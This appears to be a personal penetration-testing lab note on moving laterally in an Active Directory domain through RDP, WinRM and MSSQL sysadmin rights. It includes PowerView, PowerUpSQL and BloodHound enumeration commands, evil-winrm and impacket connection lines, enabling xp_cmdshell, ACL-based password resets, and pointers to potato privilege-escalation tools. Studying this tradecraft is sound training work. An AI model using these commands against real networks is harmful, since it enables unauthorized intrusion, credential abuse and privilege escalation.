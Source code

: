  # 1- Privileged Access
Once we gain a foothold in a domain, the next step is to move laterally or escalate privileges to reach domain compromise. 
1.  ==If we already have local admin rights==, **we can use Pass-the-Hash over SMB.** 

2. ==If not==, **we can still pivot using other remote access methods:**
     **Remote Desktop Protocol (RDP)** → GUI access if the user has Remote Desktop privileges
     **PowerShell Remoting  (WinRm)** → command execution if the user has Remote Management rights
     **MSSQL Server (SQLAdmin)** → sysadmin rights allow remote login and OS command execution through the SQL service account

These paths can be discovered via tools like BloodHound, PowerView, or built-in enumeration.
as the following edges exist to show us what types of remote access privileges a given user has:
- [CanRDP](https://bloodhound.specterops.io/resources/edges/can-rdp)
- [CanPSRemote](https://bloodhound.specterops.io/resources/edges/can-ps-remote)
- [SQLAdmin](https://bloodhound.specterops.io/resources/edges/sql-admin)

## Check Local Admin Rights for Domain Users
**In BloodHound, click on Domain Users object >> Analysis Tab >> run “Find computers where group has local admin rights”  Queries  → view results.**
## Remote Desktop
1.  **if we control a local admin user -> we can access it via RDP**
2. - ==if we control a **Domain User** don't have the local admin Right== **but does have the rights to RDP into one or more machines.** 
         we could use the new host position to:
         1. Launch further attacks
        2. We may be able to escalate privileges and obtain credentials for a higher privileged user
         3. We may be able to pillage the host for sensitive data or credentials
#### Enumerating the Remote Desktop Users Group
**Using PowerView,** we could  enumerating members of the `Remote Desktop Users` group on a given host
```powershell
import-module .\PowerView.ps1
Get-NetLocalGroupMember -ComputerName ACADEMY-EA-MS01 -GroupName "Remote Desktop Users"
#=> MemberName   : <DOMIAN>\Domain Users  
```
[+] ==find **Domain Users  group** (`all` users in the domain) can RDP to the Host==
>  Such Hosts may contain sensitive data or privilege escalation opportunities, allowing us to gain local admin rights and steal higher-privileged credentials for further domain access.
#### Checking  Domain Users Group has RDP Rights  
Does the Domain Users group have local admin rights or execution rights (such as RDP or WinRM) over one or more hosts?
**In BloodHound, Click on Domain Users Group Object >> Node info >> Execution Right >> ==First Degree RDP Privileges==**
![[Pasted image 20250819210757.png]]
#### Check User have RDP Right
**In BloodHound, Click on the  User  Object >> Node info >> Execution Right >> ==First Degree RDP Privilege==s**
![[Pasted image 20250819212242.png]]

>CanRDP
#### pre-built queries
We could also check the `Analysis` tab and run the pre-built queries ==Find Workstations where Domain Users can RDP== or ==Find Servers where Domain Users can RDP==.
#### Connect 
To test this access, we can either use a tool such as `xfreerdp` or `Remmina` from our VM or the Pwnbox or `mstsc.exe` if attacking from a Windows host.

## WinRM
Like RDP, WinRM access may be granted to a user or group, sometimes even low-privileged, which can be leveraged for data hunting, privilege escalation, or local admin access.
#### Enumerating the WinRm Group Members
```powershell
import-module PowerView.ps1
Get-NetLocalGroupMember -ComputerName <COMPUTER-NAME> -GroupName "Remote Management Users" 
  #=> MemberName   : <DOMAIN>\<USER>
```
#### Enum WinRm Users with BloodHound
```cypher
MATCH p1=shortestPath((u1:User)-[r1:MemberOf*1..]->(g1:Group)) MATCH p2=(u1)-[:CanPSRemote*1..]->(c:Computer) RETURN p2
```

![[Pasted image 20250821223031.png]]
> CanPSRemote
#### Connect to WinRM from Windows
```powershell
$password = ConvertTo-SecureString "<PASSWORD>" -AsPlainText -Force
$cred = new-object System.Management.Automation.PSCredential ("<DOMAIN>\<USER>", $password)
Enter-PSSession -ComputerName ACADEMY-EA-MS01 -Credential $cred

hostname #=> <winrm-computer-2>
Exit-PSSession #=> exit 
```
#### Connect to WinRM from Linux
```bash
evil-winrm -i 10.129.201.234 -u forend
```

## SQL Server Admin
we will encounter SQL servers in the environments we face. It is common ==to find user and service accounts set up with sysadmin privileges on a given SQL server instance.==

We may obtain SQL Service credentials for an account via:
- 1.  Kerberoasting (common)
-  2.  LLMNR/NBT-NS Response Spoofing
-  3.  password spraying
- 4.  search for creds on share files (using Snaffler)  to find web.config or other config files

#### Enum MSSQL Server Admin Users 

We can check for `SQL Admin Rights` in the `Node Info` tab for a given user
![[Pasted image 20250821225046.png]]

or use this custom Cypher query to search: (better + fast)
```cypher
MATCH p1=shortestPath((u1:User)-[r1:MemberOf*1..]->(g1:Group)) MATCH p2=(u1)-[:SQLAdmin*1..]->(c:Computer) RETURN p2
```
![[Pasted image 20250821225156.png]]
[+] ==find `<USER-2>`. (damundsen) + we already have a ALC right to change the password of that User using User-1== 
Let's assume we changed the account password to `<New-PASSWORD>` using our ACL rights. We can now authenticate and run operating system commands.

#### Enumerating MSSQL Instances with PowerUpSQL

```powershell
Import-Module .\PowerUpSQL.ps1
Get-SQLInstanceDomain
# DomainAccount  : Useer-2 ==> domain account do have sysadmin privileges under which the SQL Server service is running.
# Spn: MSSQLSvc/<SQL-Server-Name.LOCAL>:1433  
```

#### Connect to MSSQL From Windows
```powershell
Import-Module .\PowerUpSQL.ps1
Get-SQLQuery -Verbose -Instance "<SQL-SERVER-IP>,1433" -username "<DOMAIN>\<USER-2>" -password "NEW-PASS" -query 'Select @@version'
```
#### Connect to MSSQL From
```bash
impacket-mssqlclient <DOMAIN>/<USER-2>@<SQL-SERVER-IP> -windows-auth
enable_xp_cmdshell
# xp_cmdshell <command>.
xp_cmdshell whoami /priv    # check the MSSQL Account priv on the server
  # SeAssignPrimaryTokenPrivilege 
  # SeImpersonatePrivilege   
```
[+] ==find `SeImpersonate and SeAssignPrimaryToken` so we can  escalate to `SYSTEM` level privileges (using tools such as [JuicyPotato](https://github.com/ohpe/juicy-potato), [PrintSpoofer](https://github.com/itm4n/PrintSpoofer), or [RoguePotato](https://github.com/antonioCoco/RoguePotato))==
